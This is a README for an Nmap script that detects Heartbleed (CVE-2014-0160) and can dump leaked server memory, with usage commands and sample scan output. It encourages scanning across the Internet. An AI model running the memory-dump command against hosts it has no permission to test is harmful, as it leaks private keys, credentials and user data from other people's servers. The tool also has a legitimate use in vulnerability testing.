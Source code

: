 openssl-heartbleed.nse
======================

Nmap NSE script that discovers/exploits Heartbleed/CVE-2014-0160. It is still in PoC state, so use with caution. This is supposed to make mass-testing easier. Take it on a trip through the Internet!

Due to experimental state it is not yet supposed to be put in the Nmap scripts dir unless you really know what you are doing.

### Usage
#### Check if a host is vulnerable (runs on every SSL/TLS port)
```
$ nmap --script=./openssl-heartbleed.nse host.tld
```
#### Dump leaked memory from a vulnerable host
Dumping leaked memory is enabled by increasing Nmap's debug level via -d flag.
```
$ nmap -d --script=./openssl-heartbleed.nse host.tld

```

### Example Output
```
[ ~/temp/heartbleed ] nmap -p443 --script=./openssl-heartbleed.nse local.de 

Starting Nmap 6.41SVN ( http://nmap.org ) at 2014-04-09 01:58 CEST
Nmap scan report for tune.pk (172.23.0.1)
Host is up (0.12s latency).
PORT    STATE SERVICE
443/tcp open  https
|_openssl-heartbleed: Host is vulnerable to TLS heartbeat read overrun (CVE-2014-0160). Increase debug level for a dump of leaked data.

Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```
